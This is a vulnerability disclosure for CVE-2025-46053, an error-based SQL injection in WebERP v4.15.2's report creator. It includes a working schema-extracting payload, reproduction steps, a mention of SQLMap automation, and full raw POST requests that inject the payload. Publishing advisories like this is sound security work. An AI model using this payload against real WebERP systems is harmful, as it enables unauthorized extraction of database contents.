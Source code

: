 # CVE-2025-46053

---

## SQL Injection


An error-based SQL Injection (SQLi) vulnerability in WebERP v4.15.2 allows attackers to execute arbitrary SQL commands and extract sensitive data by injecting a crafted payload into the ReportID and ReplaceReportID parameters within a POST request to /reportwriter/admin/ReportCreator.php

* Vulnerable Endpoint: /reportwriter/admin/ReportCreator.php
* Vulnerable Param: ReportID, ReplaceReportID
* Payload: 
```
1 AND GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(schema_name AS NCHAR),1)),1,190) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1)),1)
```

---

### Steps to reproduce:

1.) Authenticate as Admin user and proceed to Setup > Report Builder Tool:

![Pasted image 20250513115107](https://github.com/user-attachments/assets/350be443-b132-48d0-94f9-edb3ab4a3a76)


2.) Go through the report building process until you see the following request:

```
POST /reportwriter/admin/ReportCreator.php?action=step3
```

![Pasted image 20250513115128](https://github.com/user-attachments/assets/5d54460a-e20c-4c2c-bfff-863ed3a3e95d)

3.) Append a ‘ to ReplaceReportID and observe the DB Error:

![Pasted image 20250513115143](https://github.com/user-attachments/assets/d0e97394-9d0e-466c-8f93-ad632c38ecef)


4.) Get the DB name through error based SQLi:
```
1 AND GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(schema_name AS NCHAR),1)),1,190) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 2,1)),1)
```

![Pasted image 20250513115205](https://github.com/user-attachments/assets/7c61b1b5-ecea-4ae8-a74b-10ee0dae7d61)

5.) Automate this process with SQLMap:

![Pasted image 20250513115338](https://github.com/user-attachments/assets/ffeabdd8-2ab6-49f5-b6aa-34a384d82caf)


6.) Confirm this vulnerability with ReportID parameter:

![Pasted image 20250513115503](https://github.com/user-attachments/assets/b27d698f-fdbe-422c-9b0c-3665934fbb68)



--- 

### Vulnerable Request for ReplaceReportId parameter:
```
POST /reportwriter/admin/ReportCreator.php?action=step3 HTTP/1.1
Content-Length: 298
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8083
Referer: http://localhost:8083/reportwriter/admin/ReportCreator.php?action=step2
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Connection: close

FormID=dfecb1c0a019c47346bfab0d39d1f1789f15e826&ReportID=1&Type=1&ReplaceReportID=1%20AND%20GTID_SUBSET(CONCAT((SELECT%20MID((IFNULL(CAST(schema_name%20AS%20NCHAR)%2c1))%2c1%2c190)%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2c1))%2c1)&ReportName=&GroupName=ord&FormGroup=gl%3Achk&todo=Replace
```


### Vulnerable Request for ReportID parameter:
```
POST /reportwriter/admin/ReportCreator.php?action=step6 HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
Origin: http://localhost:8083
Connection: close
Referer: http://localhost:8083/reportwriter/admin/ReportCreator.php?action=step5
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i

FormID=dfecb1c0a019c47346bfab0d39d1f1789f15e826&ReportID=143&Type=rpt&ReportName=test&todo=Continue
```




